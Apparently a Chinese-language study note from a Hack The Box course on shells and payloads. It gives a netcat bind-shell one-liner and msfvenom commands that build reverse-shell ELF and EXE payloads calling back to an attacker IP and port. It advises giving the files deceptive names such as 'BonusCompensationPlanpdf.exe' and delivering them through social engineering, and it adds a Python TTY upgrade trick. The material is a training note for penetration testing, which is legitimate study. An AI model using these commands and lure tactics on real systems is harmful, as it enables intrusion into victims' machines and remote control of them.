

# 1 Shells & Payloads

## 1.1 basic

### 1.1.1 bind shell

**服务器端（监听）：**

```shell
nc -lvnp 7777
# 等待别人连接到我
```

**客户端（连接）：**

```shell
nc -nv 10.129.41.200 7777
# 我主动连接到目标服务器
```

- `l` \- listen（监听模式）
  - 让 nc 作为服务器监听连接，而不是作为客户端连接到其他地方
- `v` \- verbose（详细模式）
  - 显示更多详细信息，包括连接状态、传输信息等
- `n` \- numeric-only（仅数字）
  - 不进行 DNS 解析，直接使用 IP 地址
  - 这样可以加快速度，避免 DNS 查询延迟
- `p` \- port（端口）
  - 指定要监听的端口号（这里是 7777）

#### No. 1: Server - Binding a Bash shell to the TCP session

```shell-session
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

- **`cat /tmp/f`** - 读取管道内容（等待输入）

**FIFO（命名管道）**：就像一根管子

- 你从这头说话 🗣️ → 管子 → 另一头有人听 👂
- 话说完就没了，不会留在管子里
- **先说的话先听到**（First In First Out = 先进先出）

- **`|`** - 管道符，传递数据

- `/bin/bash -i`

   \- 启动交互式 bash shell

  - `-i` = interactive（交互模式）

- `2>&1`

   \- 将错误输出重定向到标准输出

  - `2` = stderr（错误）
  - `1` = stdout（标准输出）

- **`| nc -l 10.129.41.200 7777`** - 在 7777 端口监听，将 bash 输出发送给连接的客户端

- **`> /tmp/f`** - 将客户端的输入写回管道

##### 工作原理：

1. **客户端连接** → `nc 10.129.41.200 7777`
2. **客户端输入命令** → 通过 nc 发送 → 写入 `/tmp/f`
3. **cat 读取命令** → 传给 bash 执行
4. **bash 输出结果** → 通过 nc 发送回客户端
5. **循环继续...**


#### No. 2: Client - Connecting to bind shell on target

```shell-session
capybaralalale@htb[/htb]$ nc -nv 10.129.41.200 7777

Target@server:~$  
```

### 1.1.2 Reverse Shells

Example:



https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

## 1.2 payload

我们必须注意，使用 Metasploit 进行自动化攻击需要通过网络连接到易受攻击的目标机器。一种方法是使用 `<command>``MSFvenom`构造有效载荷，并通过电子邮件或其他社会工程手段将其发送给目标用户，诱使其执行该文件。

#### 列出有效载荷

```shell
capybaralalale@htb[/htb]$ msfvenom -l payloads

Framework Payloads (592 total) [--payload <value>]
==================================================

    Name                                                Description
    ----                                                -----------
linux/x86/shell/reverse_nonx_tcp                    Spawn a command shell (staged). Connect back to the attacker
linux/x86/shell/reverse_tcp                         Spawn a command shell (staged). Connect back to the attacker
linux/x86/shell/reverse_tcp_uuid                    Spawn a command shell (staged). Connect back to the attacker
linux/x86/shell_bind_ipv6_tcp                       Listen for a connection over IPv6 and spawn a command shell
linux/x86/shell_bind_tcp                            Listen for a connection and spawn a command shell
linux/x86/shell_bind_tcp_random_port                Listen for a connection in a random port and spawn a command shell. Use nmap to discover the open port: 'nmap -sS target -p-'.
linux/x86/shell_find_port                           Spawn a shell on an established connection
linux/x86/shell_find_tag                            Spawn a shell on an established connection (proxy/nat safe)
linux/x86/shell_reverse_tcp                         Connect back to attacker and spawn a command shell
linux/x86/shell_reverse_tcp_ipv6                    Connect back to attacker and spawn a command shell over IPv6
linux/zarch/meterpreter_reverse_http                Run the Meterpreter / Mettle server payload (stageless)
linux/zarch/meterpreter_reverse_https               Run the Meterpreter / Mettle server payload (stageless)
linux/zarch/meterpreter_reverse_tcp                 Run the Meterpreter / Mettle server payload (stageless)
mainframe/shell_reverse_tcp                         Listen for a connection and spawn a  command shell. This implementation does not include ebcdic character translation, so a client wi
                                                        th translation capabilities is required. MSF handles this automatically.
multi/meterpreter/reverse_http                      Handle Meterpreter sessions regardless of the target arch/platform. Tunnel communication over HTTP
multi/meterpreter/reverse_https                     Handle Meterpreter sessions regardless of the target arch/platform. Tunnel communication over HTTPS
netware/shell/reverse_tcp                           Connect to the NetWare console (staged). Connect back to the attacker
nodejs/shell_bind_tcp                               Creates an interactive shell via nodejs
nodejs/shell_reverse_tcp                            Creates an interactive shell via nodejs
nodejs/shell_reverse_tcp_ssl                        Creates an interactive shell via nodejs, uses SSL
osx/armle/execute/bind_tcp                          Spawn a command shell (staged). Listen for a connection
osx/armle/execute/reverse_tcp                       Spawn a command shell (staged). Connect back to the attacker
osx/armle/shell/bind_tcp                            Spawn a command shell (staged). Listen for a connection
osx/armle/shell/reverse_tcp                         Spawn a command shell (staged). Connect back to the attacker
osx/armle/shell_bind_tcp                            Listen for a connection and spawn a command shell
osx/armle/shell_reverse_tcp                         Connect back to attacker and spawn a command shell
osx/armle/vibrate                                   Causes the iPhone to vibrate, only works when the AudioToolkit library has been loaded. Based on work by Charlie Miller
library has been loaded. Based on work by Charlie Miller

windows/dllinject/bind_hidden_tcp                   Inject a DLL via a reflective loader. Listen for a connection from a hidden port and spawn a command shell to the allowed host.
windows/dllinject/bind_ipv6_tcp                     Inject a DLL via a reflective loader. Listen for an IPv6 connection (Windows x86)
windows/dllinject/bind_ipv6_tcp_uuid                Inject a DLL via a reflective loader. Listen for an IPv6 connection with UUID Support (Windows x86)
windows/dllinject/bind_named_pipe                   Inject a DLL via a reflective loader. Listen for a pipe connection (Windows x86)
windows/dllinject/bind_nonx_tcp                     Inject a DLL via a reflective loader. Listen for a connection (No NX)
windows/dllinject/bind_tcp                          Inject a DLL via a reflective loader. Listen for a connection (Windows x86)
windows/dllinject/bind_tcp_rc4                      Inject a DLL via a reflective loader. Listen for a connection
windows/dllinject/bind_tcp_uuid                     Inject a DLL via a reflective loader. Listen for a connection with UUID Support (Windows x86)
windows/dllinject/find_tag                          Inject a DLL via a reflective loader. Use an established connection
windows/dllinject/reverse_hop_http                  Inject a DLL via a reflective loader. Tunnel communication over an HTTP or HTTPS hop point. Note that you must first upload data/hop
                                                        /hop.php to the PHP server you wish to use as a hop.
windows/dllinject/reverse_http                      Inject a DLL via a reflective loader. Tunnel communication over HTTP (Windows wininet)
windows/dllinject/reverse_http_proxy_pstore         Inject a DLL via a reflective loader. Tunnel communication over HTTP
windows/dllinject/reverse_ipv6_tcp                  Inject a DLL via a reflective loader. Connect back to the attacker over IPv6
windows/dllinject/reverse_nonx_tcp                  Inject a DLL via a reflective loader. Connect back to the attacker (No NX)
windows/dllinject/reverse_ord_tcp                   Inject a DLL via a reflective loader. Connect back to the attacker
windows/dllinject/reverse_tcp                       Inject a DLL via a reflective loader. Connect back to the attacker
windows/dllinject/reverse_tcp_allports              Inject a DLL via a reflective loader. Try to connect back to the attacker, on all possible ports (1-65535, slowly)
windows/dllinject/reverse_tcp_dns                   Inject a DLL via a reflective loader. Connect back to the attacker
windows/dllinject/reverse_tcp_rc4                   Inject a DLL via a reflective loader. Connect back to the attacker
windows/dllinject/reverse_tcp_rc4_dns               Inject a DLL via a reflective loader. Connect back to the attacker
windows/dllinject/reverse_tcp_uuid                  Inject a DLL via a reflective loader. Connect back to the attacker with UUID Support
windows/dllinject/reverse_winhttp                   Inject a DLL via a reflective loader. Tunnel communication over HTTP (Windows winhttp)
	
What do you notice about the output?
```

我们可以看到一些细节，这些细节有助于我们进一步理解有效载荷。首先，我们可以看到有效载荷的命名约定几乎总是以目标操作系统开头（例如`Linux`，Windows `Windows`、`MacOS`Windows `mainframe`、Windows 等）。我们还可以看到一些有效载荷被描述为（`staged`）或（`stageless`）。让我们来解释一下它们之间的区别。

------

### 分阶段有效载荷与非分阶段有效载荷

#### Staged Payloads（分阶段载荷）

**分阶段载荷**会分多步发送攻击组件。就像"搭建舞台"一样，为更强大的功能做准备。

##### 例子：`linux/x86/shell/reverse_tcp`

**工作流程：**

1. 先发送一个**小的 stage**（阶段）到目标机器
2. 这个小 stage 在目标上执行
3. 然后**回连**到攻击机，下载**剩余的 payload**
4. 最后执行完整的 shellcode，建立反向 shell

**特点：**

- ✅ 分步发送，更灵活
- ❌ 每个 stage 占用内存空间
- ❌ 需要多次网络通信
- ❌ 在网络不稳定时可能失败

------

#### Stageless Payloads（无阶段载荷）

**无阶段载荷**没有分阶段，**一次性发送全部**。

##### 例子：`linux/zarch/meterpreter_reverse_tcp`

**工作流程：**

1. 使用 exploit 时，**完整的 payload 一次性**通过网络发送
2. 直接执行，建立 shell

**特点：**

- ✅ 一次性发送，更稳定
- ✅ 适合**低带宽、高延迟**环境
- ✅ 网络流量少，更**隐蔽**
- ✅ 适合**社会工程学**投递

------

#### 如何区分？看名字！

##### 规则：看 `/` 的数量和位置

```
Payload 名称类型说明
linux/x86/shell/reverse_tcpStaged 分阶段每个 / 代表一个阶段：<br>/shell/ = 一个 stage<br>/reverse_tcp = 另一个 stage
linux/zarch/meterpreter_reverse_tcpStageless 无阶段shell 和网络通信在一起：<br>/meterpreter_reverse_tcp（用 _ 连接）
```

##### 更多例子：

bash

```bash
# Staged（分阶段）
windows/meterpreter/reverse_tcp
       ↑          ↑           ↑
     平台      shell阶段    通信阶段

# Stageless（无阶段）
windows/meterpreter_reverse_tcp
       ↑              ↑
     平台      shell+通信合在一起
```

------

#### 记忆技巧：

**Staged（分阶段）：**

- 名字中有多个 `/` 分隔
- 例如：`/shell/reverse_tcp`

**Stageless（无阶段）：**

- 名字中用 `_` 连接
- 例如：`/meterpreter_reverse_tcp`

------

#### 什么时候用哪种？

```
场景推荐
网络不稳定、低带宽✅ Stageless
需要隐蔽、减少流量✅ Stageless
社会工程学投递✅ Stageless
正常渗透测试✅ Staged（更灵活）
```

**简单记：网络差或要隐蔽 → 用 Stageless！** 🎯

------

#### 构建无阶段有效载荷

现在让我们用 msfvenom 构建一个简单的无阶段有效载荷，并分解该命令。

#### 建造它

```shell
capybaralalale@htb[/htb]$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

```shell-session
-p 
```

这`option`表明 msfvenom 正在创建有效载荷。

```shell-session
linux/x64/shell_reverse_tcp 
```

指定一个`Linux` `64-bit`无阶段有效载荷，该有效载荷将启动基于 TCP 的反向 shell（`shell_reverse_tcp`）。

```shell-session
LHOST=10.10.14.113 LPORT=443 
```

执行时，有效载荷将回调到指定的 IP 地址（`10.10.14.113`）和指定的端口（`443`）。

```shell-session
-f elf 
```

该`-f`标志指定生成的二进制文件的格式。在本例中，它将是一个[.elf 文件](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format)。

```shell-session
> createbackup.elf
```

生成 .elf 二进制文件并将其命名为 createbackup。我们可以随意命名此文件。理想情况下，我们应该使用一些不显眼的名字，或者一些容易吸引他人下载和执行的名字。

### 为 Windows 系统构建一个简单的无阶段有效载荷

我们还可以使用 msfvenom 来构造一个可执行`.exe`文件（），该文件可以在 Windows 系统上运行，从而提供一个 shell。

#### Windows 有效载荷

 使用 MSFvenom 构建有效载荷

```shell-session
capybaralalale@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

在这种情况下，我们需要发挥创造力，才能将有效载荷传递到目标系统。如果没有其他`encoding`方法`encryption`，这种形式的有效载荷几乎肯定会被 Windows Defender 防病毒软件检测到。

## 1.3 Unix/Linux shell

### 用 Python 生成 TTY Shell

#### 问题：Non-TTY Shell

当我们进入系统 shell 时，会注意到**没有提示符**，但仍然可以执行一些系统命令。这种 shell 通常被称为 **`non-tty shell`**（非交互式 shell）。

**Non-TTY Shell 的限制：**

- ❌ 功能有限
- ❌ 无法使用 `su`（切换用户）
- ❌ 无法使用 `sudo`（超级用户执行）
- ❌ 难以进行权限提升

------

#### 为什么会这样？

**原因：** Payload 是以 **apache 用户**身份在目标上执行的。

- 我们的 session 是作为 `apache` 用户建立的
- 管理员通常**不会以 apache 用户**身份访问系统
- 因此 apache 用户的**环境变量**中**没有定义 shell 解释器**

------

### 解决方法：用 Python 生成 TTY Shell

#### Step 1：检查 Python 是否存在

bash

```bash
which python
```

或者：

bash

```bash
which python3
```

#### Step 2：使用 Python 生成交互式 Shell

bash

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

**输出：**

bash

```bash
sh-4.2$         # 现在有提示符了！
sh-4.2$ whoami
apache
```

## 1.4 Web Shell

